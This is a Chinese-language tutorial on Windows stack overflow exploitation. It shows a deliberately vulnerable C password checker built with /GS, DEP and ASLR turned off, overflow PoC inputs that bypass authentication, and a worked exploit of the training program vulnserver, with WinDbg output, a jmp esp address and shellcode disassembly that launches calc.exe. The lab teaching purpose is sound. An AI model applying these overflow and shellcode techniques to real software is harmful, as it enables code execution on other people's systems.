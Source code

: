 ﻿windows栈溢出利用
========================================

栈溢出
----------------------------------------

示例代码
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

	#include"stdafx.h"
	#include<Windows.h>

	#define PASSWORFD "1234567"

	int verify_password(char *password)
	{
		int authenticated;
		char buffer[44];
		authenticated = strcmp(PASSWORFD, password);
		strcpy(buffer, password);
		return authenticated;
	}

	int main(int argc, char* argv[])
	{
		
		if (argc > 1)
		{
			int valid_flag = 0;
			char password[1024];
			FILE *fp;
			LoadLibrary("user32.dll");
			if (!(fp = fopen(argv[1], "r")))
			{
				printf("password.txt open failed");
				exit(0);
			}
			fscanf(fp, "%s", password);
			valid_flag = verify_password(password);
			if (valid_flag)
				printf("incorrect password!\n");
			else
			{
				printf("Congratulation!You have passed the verification!");
			}
			fclose(fp);
		}
		else
			printf("main argu error!");
		return 0;
	}

编译环境：
 | IDE：Visual Studio 2015，release
 | 编译选项：
 | 字符集：使用多字节字符集
 | c/c++->优化->优化：已禁用
 | c/c++->优化->启用内部函数：否
 | c/c++->优化->全程序优化：否
 | c/c++->预处理器->预处理定义：_CRT_SECURE_NO_WARNINGS（或禁用SDL）
 | c/c++->代码生成->安全检查：禁用安全检查（/GS-）
 | 链接器->高级->数据执行保护(DEP)-否
 | 链接器->高级->随机基址-否
 | 附件：`stackvuln.zip <..//_static//stackvuln.zip>`_

运行堆栈
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | **运行环境** ：Microsoft Windows 7 旗舰版 6.1.7601 Service Pack 1 Build 7601 64位
 | **poc** :

	::
		
		0321432143214321432143214321432143214321432143214321432143214321
		4321432143214321432143214321432143214321432143214321432143214321
		432143214321

 **溢出发生前** ：
	|stack4|
 **溢出发生后** ：
	|stack5|
 **EIP崩溃** ：
	|stack6|


POC
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 绕过验证
	**poc** ：
	::

		03214321432143214321432143214321432143214321

	**溢出发生前** ：
	|stack7|
	**溢出发生后** ：
	|stack8|
	**验证通过** ：
	|stack9|

- 代码植入
	**原理图** ：
	|stack10|
	**poc** ：
	|stack11|
	|stack15|

	**溢出发生前** ：
	|stack12|
	**溢出发生后** ：
	|stack13|
	**运行** ：
	|stack14|

实战示例
----------------------------------------

示例程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `vulnserver <https://github.com/stephenbradshaw/vulnserver>`_

运行环境
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Microsoft Windows 7 旗舰版 6.1.7601 Service Pack 1 Build 7601（32位）

FUZZ测试
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `boofuzz-vulnserver1 <..//_static//boofuzz-vulnserver1.py>`_
	通过以上脚本可使服务器程序崩溃，即POC。
- `boofuzz-vulnserver2 <..//_static//boofuzz-vulnserver2.py>`_
	通过以上脚本测试崩溃数据位置以及EXP代码。

EXP过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- windbg设置为JIT调试器
- 调试过程

	::

		Microsoft (R) Windows Debugger Version 6.12.0002.633 X86
		Copyright (c) Microsoft Corporation. All rights reserved.

		*** wait with pending attach
		Symbol search path is: srv*c:\symbols*http://msdl.microsoft.com/download/symbols
		Executable search path is: 
		ModLoad: 00400000 00407000   C:\Users\Administrator\Desktop\vulnserver.exe
		ModLoad: 77210000 7734c000   C:\Windows\SYSTEM32\ntdll.dll
		ModLoad: 756d0000 757a4000   C:\Windows\system32\kernel32.dll
		ModLoad: 75560000 755aa000   C:\Windows\system32\KERNELBASE.dll
		ModLoad: 62500000 62508000   C:\Users\Administrator\Desktop\essfunc.dll
		ModLoad: 76760000 7680c000   C:\Windows\system32\msvcrt.dll
		ModLoad: 76e60000 76e95000   C:\Windows\system32\WS2_32.DLL
		ModLoad: 76c10000 76cb1000   C:\Windows\system32\RPCRT4.dll
		ModLoad: 77430000 77436000   C:\Windows\system32\NSI.dll
		ModLoad: 74da0000 74ddc000   C:\Windows\system32\mswsock.dll
		ModLoad: 76d60000 76e29000   C:\Windows\system32\user32.dll
		ModLoad: 75680000 756ce000   C:\Windows\system32\GDI32.dll
		ModLoad: 77350000 7735a000   C:\Windows\system32\LPK.dll
		ModLoad: 76cc0000 76d5d000   C:\Windows\system32\USP10.dll
		ModLoad: 76e30000 76e4f000   C:\Windows\system32\IMM32.DLL
		ModLoad: 77360000 7742c000   C:\Windows\system32\MSCTF.dll
		ModLoad: 74610000 74615000   C:\Windows\System32\wshtcpip.dll
		ModLoad: 75260000 752ac000   C:\Windows\system32\apphelp.dll
		(6d4c.76a8): Access violation - code c0000005 (!!! second chance !!!)
		eax=0174f200 ebx=0000005c ecx=006751ec edx=00000000 esi=00000000 edi=00000000
		eip=017ff9e0 esp=0174f9e0 ebp=eeffee42 iopl=0         nv up ei pl zr na pe nc
		cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
		017ff9e0 ??              ???
		0:001> kb
		ChildEBP RetAddr  Args to Child              
		WARNING: Frame IP not in any known module. Following frames may be wrong.
		0174f9dc b850c033 64453278 b8506c6c 32336c65 0x17ff9e0
		0174fa30 772669a7 002c2518 00000000 77265dd3 0xb850c033
		0174fb14 77265ae0 00000208 00000210 002c2512 ntdll!RtlpAllocateHeap+0xc78
		0174fb88 00000000 00000000 00000000 00000000 ntdll!RtlAllocateHeap+0x23a
		0:001> dd esp- 0x20
		0174f9c0  41414141 41414141 42424241 42424242
		0174f9d0  42424242 42424242 eeffee42 017ff9e0
		0174f9e0  b850c033 64453278 b8506c6c 32336c65
		0174f9f0  656bb850 8b506e72 7bb850c4 ff7c801d
		0174fa00  50c033d0 2e0909b8 50657865 6c6163b8
		0174fa10  c48b5063 b850056a 7c8623ad c033d0ff
		0174fa20  cafab850 d0ff7c81 0174fb00 006749c0
		0174fa30  00000042 772669a7 002c2518 00000000
		多次执行程序发现，017ff9dc的堆栈位置不固定，导致无法017ff9dc(017ff9e0)数据无法确定，
		即存在ASLR，我们使用EMET来禁用ASLR。
		不知道为什么，禁用了ASLR之后，堆栈的地址还是不固定，那么我们需要将0174f9dC（017ff9e0）填充为僵尸地址。
		并且，堆栈恢复之后，esp指向了017ff9e0地址,即shellcode地址。
		那么我们可以在kernel32或ntdll中查找jmp esp (ffe4) 或者 call esp (ffd4) 的指令的地址，填充到017ff9dc。
		0:001> lm
		start    end        module name
		00400000 00407000   vulnserver   (deferred)             
		0dce0000 0dd2a000   KERNELBASE   (deferred)             
		3fd20000 3fd25000   wshtcpip   (deferred)             
		40160000 40166000   NSI        (deferred)             
		402c0000 402ca000   LPK        (deferred)             
		41840000 4185f000   IMM32      (deferred)             
		41ac0000 41af5000   WS2_32     (deferred)             
		62500000 62508000   essfunc    (deferred)             
		6c880000 6c8bc000   mswsock    (deferred)             
		6f000000 6f04c000   apphelp    (deferred)             
		6f8e0000 6f97d000   USP10      (deferred)             
		6ff50000 6fffc000   msvcrt     (deferred)             
		70990000 70a5c000   MSCTF      (deferred)             
		77b60000 77bae000   GDI32      (deferred)             
		77bb0000 77c51000   RPCRT4     (deferred)             
		77d10000 77dd9000   user32     (deferred)             
		77de0000 77eb4000   kernel32   (deferred)             
		77ec0000 77ffc000   ntdll      (pdb symbols)          c:\symbols\ntdll.pdb\120028FA453F4CD5A6A404EC37396A582\ntdll.pdb
		
		77D34E5B    FFE4            jmp     esp
		
		0:001> x kernel32!LoadLibraryA
		77e3395c kernel32!LoadLibraryA = <no type information>
		0:001> x kernel32!0:001> x kernel32!WinExec
		77e6e5fd kernel32!WinExec = <no type information>
		
		shellcode如下：
		0172fa2b 90              nop
		0172fa2c 90              nop
		0172fa2d 90              nop
		0172fa2e 90              nop
		0172fa2f 90              nop
		0172fa30 33c0            xor     eax,eax
		0172fa32 50              push    eax
		0172fa33 b82e646c6c      mov     eax,6C6C642Eh
		0172fa38 50              push    eax
		0172fa39 b8656c3332      mov     eax,32336C65h
		0172fa3e 50              push    eax
		0172fa3f b86b65726e      mov     eax,6E72656Bh
		0172fa44 50              push    eax
		0172fa45 8bc4            mov     eax,esp
		0172fa47 50              push    eax
		0172fa48 b85c39e377      mov     eax,offset kernel32!LoadLibraryA (77e3395c)
		0172fa4d ffd0            call    eax
		0172fa4f 33c0            xor     eax,eax
		0172fa51 50              push    eax
		0172fa52 b82e657865      mov     eax,6578652Eh
		0172fa57 50              push    eax
		0172fa58 b863616c63      mov     eax,636C6163h
		0172fa5d 50              push    eax
		0172fa5e 8bc4            mov     eax,esp
		0172fa60 6a05            push    5
		0172fa62 50              push    eax
		0172fa63 b8fde5e677      mov     eax,offset kernel32!WinExec (77e6e5fd)
		0172fa68 ffd0            call    eax
		0172fa6a 33c0            xor     eax,eax
		0172fa6c 50              push    eax
		0172fa6d b8faca817c      mov     eax,7C81CAFAh
		0172fa72 ffd0            call    eax
		0172fa74 90              nop
		0172fa75 90              nop
		0172fa76 90              nop
		0172fa77 90              nop
		0172fa78 90              nop


	|stack16|


.. |stack4| image:: ../images/stack4.png
.. |stack5| image:: ../images/stack5.png
.. |stack6| image:: ../images/stack6.png
.. |stack7| image:: ../images/stack7.png
.. |stack8| image:: ../images/stack8.png
.. |stack9| image:: ../images/stack9.png
.. |stack10| image:: ../images/stack10.jpg
.. |stack11| image:: ../images/stack11.png
.. |stack12| image:: ../images/stack12.png
.. |stack13| image:: ../images/stack13.png
.. |stack14| image:: ../images/stack14.png
.. |stack15| image:: ../images/stack15.png
.. |stack16| image:: ../images/stack16.png